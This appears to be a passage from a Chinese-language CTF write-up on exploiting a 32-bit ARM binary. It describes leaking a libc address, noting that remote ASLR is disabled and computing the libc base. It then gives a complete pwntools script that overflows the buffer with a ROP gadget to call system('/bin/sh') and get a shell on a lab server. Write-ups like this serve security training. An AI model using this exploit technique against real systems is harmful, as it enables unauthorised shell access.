 如图可见，输入41个字节可以泄露`0xf67a7000`这个地址，它显然是libc中的一个地址。

查看一下里面的内容。

![5d00bfc86318937015](https://i.loli.net/2019/06/12/5d00bfc86318937015.png)

显而易见，这个libc中got表的位置。

通过多次测试，发现远程服务器泄露出来的地址都为`0xf67c8000`，可以判断出远程没有开启ASLR。

使用`readelf -S libc-2.23.so`来获取libc中各个段的offset。

![5d00c0475bd3524923](https://i.loli.net/2019/06/12/5d00c0475bd3524923.png)

可以找到.got的偏移，由此可以计算远程libc的基地址。

接着用找rop控制r0 pc来执行`system('ls')`即可getshell。

exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月01日 星期六 10时37分34秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = remote('172.29.21.112', 9999)
libc = ELF('libc-2.23.so')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']



libcbase  = 0xf67c8000 - 0x13f000
success('libcbase ' + hex(libcbase))
pad = 36
'''
0x0010dc84 : pop {r0, pc}
'''
prp = libcbase + 0x0010dc84
binshaddr = libcbase + libc.search('/bin/sh').next()
sysaddr  = libcbase + libc.symbols['system']
io.recv()

pay = 'a'*pad  + p32(prp)  + p32(binshaddr) + p32(sysaddr)
io.send(pay)
io.interactive()
```
